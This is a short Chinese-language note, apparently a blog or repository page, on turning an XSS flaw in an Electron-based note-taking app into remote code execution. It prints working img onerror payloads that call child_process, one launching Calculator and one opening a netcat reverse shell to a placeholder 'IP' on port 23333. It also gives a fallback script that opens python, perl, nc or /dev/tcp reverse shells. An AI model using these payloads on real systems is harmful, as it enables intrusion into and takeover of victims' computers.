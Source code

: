 ## From xss to RCE

偶然看到一个笔记软件，功能正好满足现有的需求，于是下载下看瞅瞅，结果XSS。。。  
然后想起之前的印象笔记还有Typora的漏洞，顺手试了一把，成功。。。

`<img src=x onerror="javascript:window.parent.top.require('child_process').execFile('/Applications/Calculator.app/Contents/MacOS/Calculator',function(error, stdout, stderr){if(error){console.log(error);} });">`

`<img src=x onerror="javascript:window.parent.top.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 23333 >/tmp/f' });">`

有一个在线的shell，方便：

```shell
#curl https://shell.now.sh/IP:23333
if command -v python > /dev/null 2>&1; then
	python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",23333)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
	exit;
fi

if command -v perl > /dev/null 2>&1; then
	perl -e 'use Socket;$i="IP";$p=23333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	exit;
fi

if command -v nc > /dev/null 2>&1; then
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 23333 >/tmp/f
	exit;
fi

if command -v sh > /dev/null 2>&1; then
	/bin/sh -i >& /dev/tcp/IP/23333 0>&1
	exit;
fi%
```